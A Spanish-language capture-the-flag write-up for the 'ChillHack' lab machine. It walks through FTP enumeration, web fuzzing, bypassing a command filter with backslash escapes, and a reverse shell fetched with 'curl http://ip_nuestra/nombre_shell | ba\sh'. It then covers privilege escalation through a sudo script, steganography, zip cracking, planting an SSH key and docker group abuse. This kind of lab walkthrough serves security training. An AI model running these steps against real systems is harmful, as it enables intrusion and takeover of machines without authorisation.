


ChillHack

Easy level CTF. Capture the flags and have fun!
Enlace de la room: ChillHack
Dificultad de la room: Fácil
Publicado en August 21, 2024 by Jose Luis Venega
Enumeración Web Reverse shell Privilege Escalation
Primero de todo, vamos a realizar un escaneo de los puertos de la dirección ip de la máquina víctima:
|
 |

|

Vemos que tiene abierto los puertos 21 (conexión servicio FTP), 22 (conexión servicio SSH) y 80 (página web no encriptada “http”).
Primero, vamos a iniciar una conexión anónima en el servidor FTP, debido a que permite dicho tipos de conexiones:

Vemos que al iniciar sesión, y realizar un listado de los archivos encontramos un fichero note.txt que podemos descargar en nuestra máquina mediante el comando get.

Vemos que el fichero contiene dos usuarios Anurodh y Apaar.
Como aquí no podemos seguir haciendo nada, vamos a ver que encontramos la página web:

Como de costumbre, no encontramos nada a simple vista, por lo que vamos a realizar fuzzing web con gobuster:

Encontramos un directorio oculto, llamado /secret que si accedemos a él encontramos un campo donde podemos ejecutar código, por lo que estamos ante un RCE:

Si ejecutamos un comando más interesante como puede ser cat /etc/passwd obtenemos como resultado:

Podemos interceptar la petición del CRE mediante burpsuite, donde podemos enviar los comandos pero intentando bypassear la “protección”, por ejemplo:

Hemos hecho un bypass del comando ls -la escapando la s, por lo que podemos llevarlo a la práctica con otros comandos:

|

|
Vemos que si escapamos el comando cat /index.php encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una reverse shell desde la página web:

Ahora, en la web vamos a ejecutar el comando:
curl http://ip_nuestra/nombre_shell | ba\shpara poder obtener la reverse shell y seguido ejecutarla escapando el comando bash.

|

|
Ahora dentro, podemos intentar escalar privilegios. Por lo que podemos hacer uso del comando -> sudo -l para obtener los comandos que puede ejecutar como root el usuario www-data.

En efecto, vemos que el comando /home/apaaar/.helpline.sh pueden ejecutarlos todos los usuarios del sistema.
Como es un script escrito en bash podemos ver su contenido:

Si ejecutamos el comando especificando el usuario -u apaar y en el mensaje escribimos /bin/bash (ejecución de una terminal), esta se ejecutará como apaar (ya que hemos especificado su usuario).
Y vemos que lo que realiza es una interacción, donde nos pide un nombre y un mensaje.

|
Tratamiento de la tty (para poder tener una CLI más amigable):
Bash
|
Procedemos a buscar la flag y la tenemos.

Ahora, para seguir continuando con el CTF, vamos a realizar una escalada de privilegios pero ahora a root, para poder conseguir así la última flag. Podemos realizar una búsqueda de binarios (spoiler, no va a servir de nada).
Ya que estamos dentro del servidor podemos echarle un ojo a los puertos que tiene abierto y vemos que tiene en escucha uno muy raro -> 127.0.0.1:9001.

|

|
Pero primero, vamos a volver a hacer fuzzing web a esta web:
gobuster dir -u ip_maquina:9001 -w /ruta_wordlisty vemos que tenemos un directorio llamado /images, si accedemos a él encontramos dos archivos, el que nos interesa es el ‘.jpg’.

Ahora nos descargamos el archivo:
wget hacker-with-laptop_23-2147985341.jpgComo tenemos una imagen con extensión ‘.jpg’ podemos hacer uso de steghide para poder encontrar información oculta en la imagen:

Y esto no da un archivo llamado ‘backup.zip’, el cual si queremos descomprimir nos pedirá una contraseña, la cual podemos intentar romper con un ataque de fuerza bruta, con fcrackzip:

Tenemos la contraseña del ‘.zip’, vamos a abrirlo:
unzip backup.zip
nano source_code.php
Encontramos la contraseña del otro usuario Anurodh, la cual está encriptada en base64, la desencriptamos y nos la guardamos:
echo -e "contraseña_base64" | base64 -dAhora sí, vamos a proceder a obtener las claves id_rsa del usuario apaar, para ello vamos al directorio donde estas se almacenan:
cd /home/apaar/.shh
Vemos que no tenemos el id_rsa como tal, si no que tenemos un fichero llamado ‘authorized_key’ que son las claves permitidas y autorizadas para poder realizar la conexión vía SSH. Pero nosotros podemos crear una clave e introducirla en dicho fichero ya que tenemos permisos de escritura en el mismo.
Con ssh-keygen podemos crear una clave para el usuario apaar y tenemos tanto el id_rsa (apaar) como el id_rsa.pub (apaar.pub).

A continuación, guardamos apaar.pub en el fichero ‘authorized_keys’ y apaar en un archivo id_rsa en nuestra máquina y podremos realizar nuestro inicio de sesión vía SSH.

|
Ahora que estamos dentro y previamente obtuvimos la contraseña del usuario Anurodh, mediante el comando su Anurodh y su contraseña nos convertiremos en dicho usuario:


id vemos información acerca del usuario actual y vemos que pertenece al grupo docker, es decir, tiene permisos para poder ejecutar comandos Docker y puede acceder al daemon Docker.
|
Podemos buscar en GTFObins/Docker un exploit para escalar privilegios y en efecto, hemos escalado privilegios, ergo somos usuarios root.

Hemos obtenido la root flag, por lo que hemos terminado el CTF.